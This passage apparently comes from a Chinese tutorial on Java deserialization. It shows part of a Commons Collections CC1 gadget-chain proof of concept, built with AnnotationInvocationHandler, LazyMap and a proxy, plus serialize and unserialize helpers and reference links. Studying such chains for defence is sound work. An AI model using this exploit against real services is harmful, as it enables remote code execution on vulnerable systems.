 
        Class aClass = forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler o = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Target.class, lazyMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, o);

        Object o1 = annotationInvocationHandlerConstructor.newInstance(Override.class, proxyMap);
        serialize(o1);
        unserialize("ser.bin");

        serialize(o);
        unserialize("ser.bin");


    }


    public static void serialize(Object object) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    //反序列化方法
    public static void unserialize(String filename) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
        objectInputStream.readObject();
    }
    }

参考链接：
https://blog.csdn.net/qq_45305211/article/details/142407613
https://www.bilibili.com/video/BV1yP4y1p7N7
